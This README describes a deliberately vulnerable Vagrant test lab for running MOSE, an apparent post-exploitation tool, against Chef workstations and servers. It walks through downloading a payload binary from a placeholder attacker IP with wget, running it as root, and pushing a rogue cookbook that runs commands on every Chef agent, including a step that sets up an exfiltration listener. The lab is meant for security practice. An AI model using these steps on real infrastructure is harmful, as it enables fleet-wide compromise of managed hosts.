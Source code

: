 # chef-test-lab
Create test lab which can be used to play around with MOSE and Chef.

**Warning, take heed: This lab should be run in a controlled environment, as it contains vulnerable assets.**

## Dependencies
You must download and install the following for this environment to work:
* [Vagrant](https://www.vagrantup.com/downloads.html)

## Lab Build Instructions
To create an environment with a Chef Workstation and a Chef Server that controls multiple agents, run the following command:
```
make build && make run
```
To run MOSE against the chef workstation:

1. Build MOSE using `make build` in the MOSE repo
2. Generate a payload with MOSE: `./mose -c "touch /tmp/BLA && echo test >> /tmp/BLA" -t chef`
3. Login to the chef workstation: `vagrant ssh chef_workstation` (the password is vagrant)
4. Escalate to root with `sudo su`
5. Download the binary from MOSE: `wget http://YOURIPADDRESSGOESHERE:8090/chef-linux`
6. Run the payload: `chmod +x chef-linux; ./chef-linux`
7. Wait for 30 minutes or ssh into one of the agents and kick off the payload manually: `vagrant ssh chef_agent_1` (the password is vagrant)
	7a. Escalate to root with ```sudo su```
	7b. Run ```chef-client```
8. For this example, you should note that a file has been created in `/tmp` in all of the chef-agent virtual machines, as we specified in step 2.

To run MOSE against the chef server:
1. Build MOSE using `make build` in the MOSE repo
2. Generate a payload with MOSE: `./mose -c "touch /tmp/BLA && echo test >> /tmp/BLA" -t chef -l <your local ip address> -ep 9090 -rhost chef-server:10.42.42.10`
	2a. The exfil listener time can be set with the `-ep` parameter
	2b. The `-rhost` parameter is a necessity if running against a chef-server. 
3. Login to the chef server: `vagrant ssh chef_server` (the password is vagrant)
4. Escalate to root with `sudo su`
5. Download the binary from MOSE: `wget http://YOURIPADDRESSGOESHERE:8090/chef-linux`
6. Back on the attacker's system, specify `n` for the target being a workstation and `Y` when prompted for the target being a server
7. Run the payload: `chmod +x chef-linux; ./chef-linux`
8. Use the container that is spawned on the attacking machine as if it were a workstation to get the rogue cookbook into place
9. Wait for 30 minutes or ssh into one of the agents and kick off the payload manually: `vagrant ssh chef_agent_1` (the password is vagrant)
	7a. Escalate to root with ```sudo su```
	7b. Run ```chef-client```
10. For this example, you should note that a file has been created in `/tmp` in all of the chef-agent virtual machines, as we specified in step 2.

To tear down the test environment, run the following command:
```
make destroy
```
